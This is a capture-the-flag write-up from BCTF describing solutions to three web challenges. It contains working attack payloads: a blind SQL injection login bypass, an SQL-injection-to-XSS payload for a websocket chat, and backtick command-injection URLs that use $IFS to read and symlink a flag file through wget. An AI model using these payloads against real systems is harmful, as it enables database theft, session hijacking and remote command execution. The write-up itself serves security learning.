 `http://bctf.cn/#/challenge`
Participated as Ad Victoriam

## sqli_engine (200pt)

`http://104.197.7.111:8080/`

Just simple SQLi won't work on this level, because the given token is completely salted and encrypted.

The only way is to blind SQLi the password of the admin.

By bruteforcing the password using `regexp` operator, you will be able to solve this challenge.

```
Username: 1'='1
Password: '=password regexp '^BCTF{h~~~~~~
```

--

## webchat (325pt)

`http://146.148.60.107:9991/`

This challenge consists of both SQLi and XSS vulnerability.

First of all, you will be able to see that the javascript connects to the websocket and sends the data.

Since HTML tags are filtered completely, there is only one way to solve this challenge - by performing XSS through SQL injection.

```
Payload: stypr: 1'),((0x~~~~~~~)),('stypr: 1
the 0x~~~ hex data has to be the result in the form of "stypr: <script>document.location.~~~</script>", as the format of the record has to be "username: data".
```

--

## torrent_lover (233pt)


`http://218.2.197.253/index.php`

There is only one input to inject data and that was the input for the torrent URL address.

As we look further on how the torrents are read, we find out that the website uses `wget` to read data.

Considering that the `wget` is executed by `system()` function, we can think about injecting a grave accent (http://en.wikipedia.org/wiki/Grave_accent) in order to execute a shell command.

However, spaces are filtered from the `system()` command so you may have to use an internal field seperator to execute commands.

```http://stypr.com:33/stypr?id=&#96;ls$IFS../flag%7Cbase64&#96;#.torrent```

This would give you the base64-encoded output of ../flag directory listing, which is decoded as

```
flag
use_me_to_read_flag
```

As we analyze the `use_me_to_read_flag` binary by performing a reverse-engineering, we find out that the word `flag` is filtered by the binary.

By symlinking the flag and loading the symlinked file would pop out the flag.

```
http://stypr.com/stypr?id=&#96;mkdir$IFS-p$IFS/tmp/stypr&#96;#.torrent
http://stypr.com:33/stypr?id=&#96;ln$IFS-s$IFS/var/www/flag/flag$IFS/tmp/stypr/stypr&#96;#.torrent
http://stypr.com:33/stypr?id=&#96;../flag/use_me_to_read_flag$IFS/tmp/stypr/stypr&#96;#.torrent
```